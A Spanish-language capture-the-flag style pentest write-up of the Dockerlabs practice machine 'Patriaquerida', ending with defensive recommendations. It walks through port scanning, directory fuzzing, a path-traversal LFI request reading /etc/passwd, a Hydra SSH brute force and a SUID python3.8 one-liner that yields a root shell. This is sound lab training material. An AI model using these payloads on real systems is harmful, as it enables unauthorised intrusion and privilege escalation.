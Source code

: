 # 🛡️ Informe de Pentesting – Máquina: Patriaquerida

## 🌟 Objetivo

Realizar un análisis de seguridad completo sobre la máquina virtual **Patriaquerida**, identificando vulnerabilidades, explotándolas para obtener acceso no autorizado y escalando privilegios hasta obtener el control total del sistema (root).

---

## ⚙️ 1. Despliegue de la Máquina

* Se descargó el archivo `patriaquerida.zip` desde la página de Dockerlabs.
* Se descomprimió usando:

  ```bash
  unzip patriaquerida.zip
  ```
* Se desplegó con el script:

  ```bash
  sudo bash auto_deploy.sh Patriaquerida.zip
  ```

![Inicio](/Patriaquerida/Imagenes/Inicio.jpeg)

---

## 🌐 2. Verificación de Conectividad

Se verificó que la máquina estaba activa mediante:

```bash
ping -c4 172.17.0.2
```

![Ping](/Patriaquerida/Imagenes/Ping.jpeg)

---

## 🔍 3. Escaneo de Puertos

Se realizó un escaneo completo de puertos con Nmap:

```bash
sudo nmap -p- -oopen -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Se encontraron abiertos los puertos **22 (SSH)** y **80 (HTTP)**.

![Puertos](/Patriaquerida/Imagenes/Puertos.jpeg)

Escaneo más profundo:

```bash
extractPorts allPorts.txt
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

![Servicios](/Patriaquerida/Imagenes/Servicios.jpeg)

---

## 🔎 4. Análisis del Sitio Web

La página web mostraba el contenido por defecto del servidor Apache.

![Pagina](/Patriaquerida/Imagenes/Pagina.jpeg)

---

## 🪓 5. Fuzzing de Directorios

Se utilizó Gobuster para encontrar recursos ocultos:

```bash
gobuster dir -u http://172.17.0.2 \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontró `index.php` y desde ahí un archivo oculto `.hidden_pass`.

![Gobuster](/Patriaquerida/Imagenes/Gubuster.jpeg)
![PHP](/Patriaquerida/Imagenes/php.jpeg)

---

## 🔑 6. Obtención de Contraseña

Al acceder a `http://172.17.0.2/.hidden_pass`, se reveló la contraseña `balu`.

![Contraseña](/Patriaquerida/Imagenes/Contraseña.jpeg)

---

## 🛠️ 7. Escaneo con Nikto

Se ejecutó Nikto:

```bash
nikto -h http://172.17.0.2/index.php
```

Se detectó posible vulnerabilidad de **LFI (Local File Inclusion)**.

![Nikto](/Patriaquerida/Imagenes/nikto.jpeg)

---

## 🪛 8. Explotación de LFI

Se utilizó LFI para leer el archivo `/etc/passwd`:

```
http://172.17.0.2/index.php?page=../../../../etc/passwd
```

Esto reveló usuarios del sistema como `pinguino`, `mario` y `root`.

![Informacion](/Patriaquerida/Imagenes/Informacion.jpeg)

---

## 🔓 9. Fuerza Bruta con Hydra

Se crearon dos archivos:

* `usuarios.txt` con nombres de usuario.
* `contraseña.txt` con `balu`.

Ataque con Hydra:

```bash
hydra -L usuarios.txt -P contraseña.txt ssh://172.17.0.2 -t 50
```

Se accedió exitosamente como `pinguino : balu`.

![Hydra](/Patriaquerida/Imagenes/Hydra.jpeg)

---

## 🐧 10. Acceso SSH

Ingreso a la máquina como usuario pinguino:

```bash
ssh pinguino@172.17.0.2
```

![SSH](/Patriaquerida/Imagenes/SSH.jpeg)

---

## 🚀 11. Escalada de Privilegios

### 🔧 1. Búsqueda de archivos SUID

```bash
find / -perm -4000 2>/dev/null
```

Se encontró:

```
/usr/bin/python3.8
```

El bit SUID indica que el archivo se ejecuta con permisos del propietario (root). Verificación:

```bash
ls -l /usr/bin/python3.8
```

Salida:

```
-rwsr-xr-x 1 root root ... /usr/bin/python3.8
```

### 🎡 2. Escalada con Python

Ejecutamos:

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

#### Explicación del código:

* `import os`: importa el módulo del sistema.
* `os.setuid(0)`: cambia el ID del usuario al UID 0 (root).
* `os.system("/bin/bash")`: abre una shell bash.

### 🚫 Riesgo

Permitir que binarios como Python tengan SUID es críticamente peligroso. Un atacante puede ejecutar comandos arbitrarios como root.

### ✅ Confirmación

Comprobación:

```bash
whoami
```

Resultado:

```
root
```

![Escalada](/Patriaquerida/Imagenes/Escalada.jpeg)

---

## ✅ Conclusiones Finales

| Etapa      | Descripción                                               |
| ---------- | --------------------------------------------------------- |
| **Fase 1** | Enumeración de puertos y servicios (Nmap)                 |
| **Fase 2** | Descubrimiento de archivos ocultos y vulnerabilidades web |
| **Fase 3** | Obtención de credenciales válidas (Hydra)                 |
| **Fase 4** | Acceso remoto con SSH                                     |
| **Fase 5** | Escalada de privilegios explotando SUID en Python         |

---

## 🤖 Recomendaciones

* Eliminar archivos con información sensible como `.hidden_pass`.
* Desactivar permisos SUID en binarios como Python.
* Filtrar entradas del usuario para evitar LFI.
* Monitorear intentos de acceso SSH.
* Usar contraseñas seguras y diferentes para cada usuario.
